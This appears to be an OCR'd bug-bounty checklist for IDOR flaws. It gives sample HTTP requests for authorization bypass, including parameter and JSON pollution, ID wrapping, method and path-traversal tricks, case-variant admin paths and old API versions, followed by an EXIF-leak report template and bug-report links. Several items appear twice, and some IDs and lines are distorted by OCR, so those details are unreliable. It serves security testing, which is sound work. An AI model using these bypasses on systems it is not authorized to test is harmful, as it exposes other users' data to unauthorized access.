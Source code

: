 # IDOR Checklist

- [ ] Find and Replace 10s in `urls`, headers and body: /users/01 → /users/02
- [ ] Try Parameter Pollution: users-01 users-01&users-02
- [ ] Special Characters: `/users/01` of `/users/*` → Disclosure of every single user
- [ ] Try Older versions of `api` endpoints: `/api/v3/users/01` → `/api/v1/users/02`
- [ ] Add extension: `/users/01` → `/users/82.json`
- [ ] Change Request Methods: `POST /users/81` → `GET, PUT, PATCH, DELETE` etc
- [ ] Check if `Referer` or some other `Headers` are used to validate the `IDs`:  
    `GET /users/02` → `403 Forbidden Referer: [example.com/users/01](<http://example.com/users/01>) GET /users/82` → `200 OK Referer: [example.com/users/02](<http://example.com/users/02>)`
- [ ] Encrypted IDs: If application is using encrypted IDs, try to decrypt using [hashes.com](http://hashes.com/) or other tools.
- [ ] Swap GUID with Numeric ID or email:  
    `/users/1b84c196-89f4-4260-b18b-ed85924ce283` or `/users/82` or `/users/agb.com`
- [ ] Try GUIDs such as:  
    `00000000-0000-0000-0000-000000000000` and `11111111-1111-1111-1111-111111111111`
- [ ] GUID Enumeration: Try to disclose GUIDs using `Google Dorks`, `Github`, `Wayback`, `Burp history`
- [ ] If none of the GUID Enumeration methods work then try: `Signup`, `Reset Password`, Other endpoints within application and analyze response. These endpoints mostly disclose user's GUID.
- [ ] `403/401` Bypass: If server responds back with a `403/401` then try to use burp intruder and  
    send `50-100` requests having different IDs: Example: from `/users/01` to `/users/100`
- [ ] if server responds with a `403/401`, double check the function within the application.  
    Sometime `403/401` is thrown but the action is performed.
- [ ] Blind IDORS: Sometimes information is not directly disclosed. Lookout for endpoints and  
    features that may disclose information such as `export files`, `emails` or `message alerts`.
- [ ] Chain `IDOR` with `XSS` for `Account Takeovers`.
- [ ] Bruteforce Hidden HTTP parameters
- [ ] send wildcard instead of an id
- [ ] Missing Function Level Acess Control
- [ ] Bypass object level authorization Add parameter onto the endpoit if not present by defualt

```
GET /api_v1/messages ->200GET /api_v1/messages?user_id=victim_uuid ->200
```

- [ ] HTTP Parameter POllution Give mult value for same parameter

```
GET /api_v1/messages?user_id=attacker_id&user_id=victim_idGET /api_v1/messages?user_id=victim_id&user_id=attacker_id
```

- [ ] change file type

```
GET /user_data/2341        -> 401GET /user_data/2341.json   -> 200GET /user_data/2341.xml    -> 200GET /user_data/2341.config -> 200GET /user_data/2341.txt    -> 200
```

- [ ] json parameter pollution

```
{"userid":1234,"userid":2542}
```

- [ ] Wrap the ID with an array in the body

```
{"userid":123} ->401{"userid":[123]} ->200
```

- [ ] wrap the id with a json object

```
{"userid":123} ->401{"userid":{"userid":123}} ->200
```

- [ ] Test an outdata API version

```
GET /v3/users_data/1234 ->401GET /v1/users_data/1234 ->200
```

- [ ] If the website using graphql, try to find IDOR using graphql!

- `exif_geo`
    
    ### Summary
    
    When a user uploads an image in [example.com](http://example.com/), the uploaded image’s EXIF Geolocation Data does not gets stripped. As a result, anyone can get sensitive information of [example.com](http://example.com/) users like their Geolocation, their Device information like Device Name, Version, Software & Software version used etc.
    
    ### Steps to reproduce:
    
    1. Got to Github ( [https://github.com/ianare/exif-samples/tree/master/jpg](https://github.com/ianare/exif-samples/tree/master/jpg)) <br>
    2. There are lot of images having resolutions (i.e 1280 * 720 ) , and also whith different MB’s
    3. Go to Upload option on the website
    4. Upload the image
    5. see the path of uploaded image ( Either by right click on image then copy image address OR right click, inspect the image, the URL will come in the inspect , edit it as html )</br>
    6. open it ([http://exif.regex.info/exif.cgi](http://exif.regex.info/exif.cgi))
    7. See `wheather` is that still showing `exif` data , if it is then Report it.
    
    # Reports (Hackerone)
    
    - [IDOR with Geolocation data not stripped from images](https://hackerone.com/reports/906907)
    
    ## Insecure Direct Object Reference (IDOR)
    
    - [Disclose Private Dashboard Chart's name and data in Facebook Analytics](https://bugreader.com/jubabaghdad@disclose-private-dashboard-charts-name-and-data-in-facebook-analytics-184)
    - [Disclosing privately shared gaming clips of any user](https://bugreader.com/rony@disclosing-privately-shared-gaming-clips-of-any-user-128)
    - [Adding anyone including non-friend and blocked people as co-host in personal event!](https://bugreader.com/binit@adding-anyone-including-non-friend-and-blocked-people-as-co-host-in-personal-event-181)
    - [Page analyst could view job application details](https://bugreader.com/rony@page-analyst-could-view-job-application-details-213)
    - [Deleting Anyone's Video Poll](https://bugreader.com/testgrounds@deleting-anyones-video-poll-175)
- Try decode the ID, if the ID encoded using md5,base64,etc
```html
GET /GetUser/dmljdGltQG1haWwuY29t
[...]
```

- change HTTP method
```bash
GET /users/delete/victim_id  ->403
POST /users/delete/victim_id ->200
```

- Try replacing parameter names
```bash
Instead of this:
GET /api/albums?album_id=<album id>

Try This:
GET /api/albums?account_id=<account id>

Tip: There is a Burp extension called Paramalyzer which will help with this by remembering all the parameters you have passed to a host.
```

-  Path Traversal
```bash
POST /users/delete/victim_id          ->403
POST /users/delete/my_id/..victim_id  ->200
```

- change request content-type
```bash
Content-Type: application/xml ->
Content-Type: application/json
```

-  swap non-numeric with numeric id
```bash
GET /file?id=90djbkdbkdbd29dd
GET /file?id=302
```

-  Missing Function Level Acess Control 
```bash
GET /admin/profile ->401
GET /Admin/profile ->200
GET /ADMIN/profile ->200
GET /aDmin/profile ->200
GET /adMin/profile ->200
GET /admIn/profile ->200
GET /admiN/profile ->200
```

- send wildcard instead of an id
```bash
GET /api/users/user_id ->
GET /api/users/*
```

-  Never ignore encoded/hashed ID
```bash
for hashed ID ,create multiple accounts and understand the ppattern application users to allot an iD
```

-  Google Dorking/public form
```bash
search all the endpoints having ID which the search engine may have already indexed
```

-  Bruteforce Hidden HTTP  parameters
```bash
use tools like arjun , paramminer 
```

-  Bypass object level authorization Add parameter onto the endpoit if not present by defualt
```bash
GET /api_v1/messages ->200
GET /api_v1/messages?user_id=victim_uuid ->200
```

-  HTTP Parameter POllution Give mult value for same parameter
```bash
GET /api_v1/messages?user_id=attacker_id&user_id=victim_id
GET /api_v1/messages?user_id=victim_id&user_id=attacker_id
```

-  change file type
```bash
GET /user_data/2341        -> 401
GET /user_data/2341.json   -> 200
GET /user_data/2341.xml    -> 200
GET /user_data/2341.config -> 200
GET /user_data/2341.txt    -> 200
```

-  json parameter pollution
```bash
{"userid":1234,"userid":2542}
```
- Wrap the ID with an array in the body
```bash
{"userid":123} ->401
{"userid":[123]} ->200
```

-  wrap the id with a json object
```bash
{"userid":123} ->401
{"userid":{"userid":123}} ->200
```

-  Test an outdata API version 
```bash
GET /v3/users_data/1234 ->401
GET /v1/users_data/1234 ->200
```

-  If the website using graphql, try to find IDOR using graphql!
```bash
GET /graphql
[...]
```
```html
GET /graphql.php?query=
[...]
```